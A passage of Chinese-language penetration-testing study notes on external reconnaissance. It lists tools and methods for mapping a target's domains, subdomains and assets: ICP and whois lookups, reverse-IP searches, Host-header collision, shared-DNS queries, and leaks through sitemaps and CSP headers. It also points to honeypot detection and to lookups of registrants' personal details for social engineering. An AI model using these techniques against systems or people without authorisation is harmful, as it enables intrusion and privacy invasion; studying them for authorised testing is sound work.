风险评级：按照存在漏洞的组件的安全风险值判定当前风险。

**安全建议**

```
① 移除不使用的依赖、不需要的功能、组件、文件和文档；
② 仅从官方渠道安全的获取组件(尽量保证是最新版本)，并使用签名机制来降低组件被篡改或加入恶意漏洞的风险；
③ 监控那些不再维护或者不发布安全补丁的库和组件。如果不能打补丁，可以考虑部署虚拟补丁来监控、检测或保护。
```

# 7.18

学习文章：

```
https://forum.butian.net/share/1976
```

## 外网信息搜集

### 工具

```
工具、网站	备注
1、爱站、站长工具	
Whois、备案号、权重、公司名称等

2、天眼查、企查查、搜狗搜索引擎	
公司注册域名、微信公众号、APP、软件著作权等

3、ZoomEye、Shodan、FOFA、0.Zone、quake	
网络空间资产搜索引擎

4、ENScanGo、ICP备案	
主域名收集

5、OneForAll、Layer、Rapid7的开源数据项目、ctfr、EyeWitness	
子域名收集

6、Kscan、ShuiZe_0x727、ARL灯塔、Goby	
自动化、批量信息收集

7、Bufferfly、Ehole	
资产处理、信息筛选

8、dnsdb、CloudFlair	
CDN相关

9、VirusTotal、微步、ip2domain	C段、
域名/ip情报信息

10、Nmap、Masscan	
端口服务信息

11、Google Hacking、dirsearch、URLFinder	
WEB站点信息、api接口等

12、wafw00f	
waf识别

13、云悉、潮汐、WhatWeb	
在线CMS识别

14、七麦、小蓝本	
APP资产

15、ApkAnalyser	
App敏感信息

16、乌云漏洞库、CNVD、waybackurls	
历史漏洞、历史资产等

17、n0tr00t/Sreg、reg007	
个人隐私信息

18、GitDorker	
资产信息、源码泄露

19、theHarvester、Snov.io	
邮箱信息收集

20、OSINT开源情报和侦擦工具	
开源情报资源导航

21、anti-honeypot、Honeypot Hunter	
蜜罐识别
```

#### 主域名信息

```
域名用来代替IP使其更容易被用户找到、记住。

对于"非用户"来说，可通过域名信息获取：主域名、存活站点、关联信息、钓鱼信息。为漏洞挖掘提供数据支撑。
```

##### ICP备案

**国内服务器线上运营都必须先办理ICP备案后才能上线。**


##### 01备案信息查询：

01、**ICP备案查询**

```
https://beian.miit.gov.cn/#/Integrated/index
```

02、**公安部备案查询**


03、**备案反查主域名**

反查可分为备案域名查询和未备案域名查询。

**备案域名查询**

第三方站点

```
ICP备案查询-站长工具
SEO综合查询
```



```
- 公安部备案查询
- 企业信息查询网站
```

**未备案域名查询**

已知网站信息获取（如，网站站点导航可能会包含未备案的站点）


网络空间引擎进行证书、图标关联搜索。例如：fofa指定搜索规则 `is_domain=true`，即表示只返回域名*(个人感觉国外shodan、国内fofa)*。



##### 02whois（注册人

通过whois信息可以获取注册人的关键信息。如注册商、联系人、联系邮箱、联系电话，也可以对注册人、邮箱、电话反查域名，也可以通过搜索引擎进一步挖掘域名所有人的信息。深入可社工、可漏洞挖掘利用。

**站长之家**

```
http://whois.chinaz.com/
```


```
Bugscanner
http://whois.bugscaner.com

国外BGP
https://bgp.he.net

who.is
https://who.is/

IP138网站
https://site.ip138.com/

域名信息查询-腾讯云
https://whois.cloud.tencent.com/

ICANN LOOKUP
https://lookup.icann.org/

狗狗查询
https://www.ggcx.com/main/integrated
```



```
ps:

部分whois查询存在隐藏信息，可以在其他站点查询。
whois主要还是注册商、注册人、邮件、DNS 解析服务器、注册人联系电话。
由于GDRP，ICANN要求所有域名注册商必须对域名whois隐私信息进行保护，所以whois信息越来越少……但还是会存在一些whois域名系统是旧缓存数据。
```

##### 03ip反查（一ip其他域名

```
ps:

目标可能存在多个域名绑定于同一ip上，通过ip反查可以获取到其他域名信息。比如旁站。

通过获取目标真实IP后，进行反查的旁站更真实。
查询站点需复杂性，单一的站点会有反查不出信息的可能。

大型企业不同的站点收录可能不一样
个人推荐3个不同站点反查
```

**如何查询**

**在线查询网站**：

```
同IP网站查询，同服务器网站查询 - 站长工具
Dnslytics
iP或域名查询
```

- [同IP网站查询，同服务器网站查询 - 站长工具](http://s.tool.chinaz.com/same)
- [Dnslytics](https://dnslytics.com/)
- [iP或域名查询](https://site.ip138.com/)


**搜索引擎**：

- shodan
- bing
- fofa

##### 04HOST碰撞（域名ip捆绑碰撞

信息收集过程中，往往会因为配置错误或是未及时回收等原因，存在一些隐形资产。直接访问的话会出现访问限制的问题，如下：

**ip访问响应多为：nginx、4xx、500、503、各种意义不明的Route json提示等**




```
域名解析后到内网地址

有服务器真实 IP，但找不到内网域名。
```

究其原因，大多数是因为中间件对ip访问做限制，不能通过ip直接访问，必须使用域名进行访问。如果域名解析记录里也找不到域名记录，这时就可以用到HOST碰撞技术，**通过将域名和IP进行捆绑碰撞**，一旦匹配到后端代理服务器上的域名绑定配置，就可以访问到对应的业务系统，从而发现隐形资产。

**手法：**

使用收集到的目标IP、爬虫或自定义的内部域名（内网host池），作为字典，通过脚本进行碰撞，脚本会自动模拟绑定ip与host进行请求交互，通过标题或响应大小判断结果。只要字典够强大，总能出一两个，爆破时最好也试下TLS，部分主机会使用TLS的。

验证结果，只需修改本机`host文件`绑定host与ip后，看访问变化。

**自动化**：

```
灯塔
水泽
https://github.com/cckuailong/hostscan
https://github.com/fofapro/Hosts_scan
https://github.com/smxiazi/host_scan
```

- [灯塔](https://github.com/TophantTechnology/ARL)
- [水泽](https://github.com/0x727/ShuiZe_0x727)
- https://github.com/cckuailong/hostscan
- https://github.com/fofapro/Hosts_scan
- https://github.com/smxiazi/host_scan


##### 05DNS共享记录（自建dns

**关于DNS**

DNS（Domain Name Server，域名服务器）是进行域名(domain name)和与之相对应的IP地址 (IP address)转换的服务器。DNS中保存了一张域名(domain name)和与之相对应的IP地址 (IP address)的表，以解析消息的域名，即保存了**IP地址**和**域名**的相互映射关系。域名是Internet上某一台计算机或计算机组的名称，用于在数据传输时标识计算机的电子方位（有时也指地理位置）。域名是由一串用点分隔的名字组成的，通常包含组织名，而且始终包括两到三个字母的后缀，以指明组织的类型或该域所在的国家或地区。也正是因为DNS的存在，访问相应服务只需记住域名，不需要记住无规则的ip地址。

- DNS服务器端口: tcp/udp 53。
- 常用DNS记录：

| 记录类型   | 说明                                                         |
| :--------- | :----------------------------------------------------------- |
| A 记录     | 将域名指向一个 IP 地址（外网地址）。                         |
| CNAME 记录 | 将域名指向另一个域名，再由另一个域名提供 IP 地址（外网地址）。 |
| MX 记录    | 电子邮件交换记录，记录一个邮件域名对应的IP地址，设置邮箱，让邮箱能收到邮件。 |
| NS 记录    | 域名服务器记录，记录该域名由哪台域名服务器解析。如将子域名交给其他 DNS 服务商解析。 |
| AAAA 记录  | 将域名指向一个 IPv6 地址。                                   |
| SRV 记录   | 用来标识某台服务器使用了某个服务，常见于微软系统的目录管理。 |
| TXT 记录   | 对域名进行标识和说明，绝大多数的 TXT 记录是用来做 SPF 记录（反垃圾邮件）。 |

**利用价值**

可以通过查询共享DNS服务器的主机来获取到相关的域名，一般多是用于自建DNS服务器。如果是公开的DNS服务器，那么查询的效果将会特别差。

**手法**

- 查询目标是否存在自建的NS服务器

```bash
nslookup -query=ns baidu.com 8.8.8.8
```


- 将获取到的NS服务器带入 **https://hackertarget.com/find-shared-dns-servers/** 进行查询



##### 06Google

**直接搜索目标相关关键内容来查询**，比如公司名、备案、引用的特殊js等。

搜索引擎很多，这里以Google为例：



##### 07配置信息

由于信息泄露问题，某些配置或文件会存储一些目标相关的域名，如子域名、代码托管平台等，一般来说存储信息有限且不应公网存在此类文件。

**策略文件域名信息问题如：**

- crossdomain.xml文件
  - 通常域名直接拼接crossdomain.xml路径


**sitemap文件**

站点地图文件，常见如：

- sitemap.xml、sitemap.txt、sitemap.html、sitemapindex.xml、sitemapindex.xml路径


**策略配置方面如**：

- 内容安全策略（CSP，Content Security Policy)

这是一种声明的安全机制，可以让网站运营者能够控制遵循CSP的用户代理（通常是浏览器）的行为。通过控制要启用哪些功能，以及从哪里下载内容，可以减少网站的攻击面。CSP的主要目的是防御跨站点脚本（cross-ste scripting，XSS）攻击。例如，CSP可以完全禁止内联的JavaScript，并且控制外部代码从哪里加载。它也可以禁止动态代码执行。禁用了所有的攻击源，XSS攻击变得更加困难。CSP中的关键字有default-src、img-src、object-src和script-src。其中*-src可能会存在域名信息。

关键点：

HTTP header的`Content-Security-Policy`属性


##### 08众测

补天、漏洞银行、先知、hackerone等众测的广商提供的域名测试范围。

比如hackerone：alibaba



##### 09企业资产信息


